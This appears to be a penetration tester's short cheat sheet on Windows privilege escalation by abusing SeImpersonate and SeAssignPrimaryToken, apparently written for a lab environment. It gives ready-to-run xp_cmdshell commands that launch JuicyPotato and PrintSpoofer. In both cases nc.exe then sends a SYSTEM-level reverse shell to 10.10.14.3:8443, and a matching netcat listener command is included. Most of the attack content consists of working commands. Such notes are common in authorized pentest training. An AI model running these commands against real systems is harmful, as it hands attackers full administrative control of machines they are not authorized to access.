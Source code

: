 # SeImpersonate and SeAssignPrimaryToken
## whoami /priv confirms that SeImpersonatePrivilege is listed.
### JuicyPotato can be used to exploit the SeImpersonate or SeAssignPrimaryToken privileges via DCOM/NTLM reflection abuse.
1. Escalating Privileges Using JuicyPotato
2. upload JuicyPotato.exe to the target server
3. upload nc.exe to the target server
4. https://juggernaut-sec.com/seimpersonateprivilege/
5. https://ohpe.it/juicy-potato/CLSID/
the following command is used within MSSQL with xp_cmdshell
```
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
```
-l is the COM server listening port
-p is the program to launch (cmd.exe)
-a is the argument passed to cmd.exe
-t is the createprocess call.
```
we are telling the tool to try both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively
```
nc -lvnp 8443
```
4. reverse shell created with nt authority/system
### Windows Server 2019 and Windows 10 build 1809 onwards
#### PrintSpoofer and RoguePotato can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access
1. upload PrintSpoofer.exe to the target server
2. upload nc.exe to the target server
the following command is used within MSSQL with xp_cmdshell
```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd”
```
```
nc -lvnp 8443
```
3. reverse shell created with nt authority/system